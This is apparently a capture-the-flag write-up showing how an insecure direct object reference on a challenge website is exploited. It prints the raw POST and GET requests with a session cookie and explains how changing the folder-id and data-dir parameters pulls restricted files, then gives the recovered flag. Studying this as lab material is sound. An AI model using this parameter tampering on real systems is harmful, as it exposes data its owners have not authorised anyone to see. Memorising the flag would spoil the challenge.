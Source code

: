 # Medusom [part 1] - Write up

I don't have screenshots for this challenge, (I'm sorry 😥) so I will try my best to explain it !

For this challenge, we need to attack a website to download some data that we are not authorized to see. <br>
To do that, we will exploit an IDOR (Insecure Direct Object Reference).

When we click on "download" for an authorized file, a POST request with several parameters is made :
- <strong>explorer</strong>
- <strong>file-download</strong> #boolean : we give it the value "true" to download a file
- <strong>folder-id</strong> #the id of the folder
- <strong>data-dir</strong> #the file we're interested in

```
POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md
```

Just after that, a GET request is made with the same parameters :

```
GET /ajax/listing-post?file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

To exploit the vulnerability, we just need to change the folder-id and the data-dir parameters to download the files of our choice 😀
<br>
The files that we want to download are in the folder id 11 and their names are :
<strong>
- flag.txt
- NOTES.txt
- map.png
- NOTES.txt
- RECAP.pdf
- requests
- Skiblili.odt
- code.zip
- ._lock.Skiblili.odt#
</strong>


We are going to download them one by one, by modifying the value of the folder-id parameter by <em>11</em> and the value of the data-dir parameter by the different filenames that I wrote.

So for the requests, we will have something like that for all the files we want :

```
POST :

POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=11&data-dir=PATH\TO\FILE.extension

GET :

GET /ajax/listing-post?file-download=true&folder-id=11&data-dir=PATH\TO\FILE.extension HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

<br>

After we downloaded all the files, we need to read them !

![files](https://user-images.githubusercontent.com/66923124/164997733-47d0c367-2178-48e8-a2b0-e68fcf607662.png)

<strong>flag.txt is a troll :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997796-463f9c60-ab16-4ea8-97be-16ccb870b5a0.png)

<strong>NOTES.txt is the first part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997815-b8a93a20-385d-491a-83b6-af6ee43f7751.png)

<strong>RECAP.pdf is the second part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997851-8f7769aa-17f8-4882-8805-5f3340df89a4.png)

<strong>map.png is the third part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997888-f01220d6-857f-491a-98ef-68c60460747d.png)

<strong>In code.zip, there is a file named code.txt, which is the last part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997950-abce7f23-85d7-42f0-b2e5-722f40e6dd6f.png)


After we concatenate all the four strings we obtain the flag :

<strong> FLAG : MCTF{1D0R_f0r_th3_w1n} </strong>
